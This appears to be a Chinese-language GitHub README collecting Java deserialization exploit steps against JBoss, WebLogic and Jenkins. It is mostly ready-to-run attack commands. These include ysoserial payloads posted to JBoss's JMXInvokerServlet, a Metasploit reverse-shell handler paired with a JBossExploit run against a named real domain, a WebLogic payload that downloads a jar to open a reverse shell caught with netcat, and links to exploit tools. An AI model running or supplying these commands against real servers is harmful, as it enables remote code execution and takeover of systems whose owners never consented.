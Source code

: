 # JavaDeserialization


###jboss：

#####一

```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >/tmp/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```

[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  

####二  
JBossExploit運行需要外網地址。  

session 1:

```
▶ssh kali
root@Kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/shell/reverse_tcp
msf exploit(handler) > set LHOST 123.123.123.123
msf exploit(handler) > set LPORT 999
msf exploit(handler) > exploit
```

session 2:

```
▶ssh kali
root@Kali:~# java -jar JBossExploit.jar -lhost 123.123.123.123 -lport 999 -rhost baidu.com -rport 80 -srvport 4040
```

[JBossExploit](https://github.com/njfox/Java-Deserialization-Exploit)  

####三
可眎化Jboss執行命令並回顯工具：  
[JBOSS_EXP.jar](http://www.freebuf.com/tools/88908.html)


###weblogic：  

```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
```

Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  
已打包為weblogic.jar，iswin.jar下載地址為~~原作者提供~~我的地址，有需要重新編譯源碼替換class就好啦。   
~~替換成[github](https://github.com/hackzx/JavaDeserialization/raw/master/iswin.jar)的jar。~~測試不能。

```
usage:  
  java -jar weblogic.jar [ip/domain] [port] [out_payload_file]

```

```
▶ java -jar weblogic.jar [ReverseIP] 888 /tmp/payload
▶ python weblogic.py [TargetIP] 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```

[weblogic.jar](https://github.com/hackzx/JavaDeserialization/raw/master/weblogic.jar)  
[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

###jenkins

https://github.com/CaledoniaProject/jenkins-cli-exploit  


--

更多更多的鏈接：  
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  